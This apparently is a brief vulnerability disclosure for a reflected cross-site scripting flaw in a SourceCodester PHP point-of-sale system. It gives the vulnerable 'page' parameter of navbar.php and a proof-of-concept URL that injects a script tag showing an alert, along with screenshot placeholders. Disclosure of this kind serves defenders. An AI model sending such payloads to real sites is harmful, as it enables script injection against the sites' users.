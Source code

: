 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![image-20230223221020985](C:\markdown\images\image-20230223221020985.png)

exp

```
http://192.168.31.50/kruxton/navbar.php?page=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

![image-20230223220951244](C:\markdown\images\image-20230223220951244.png)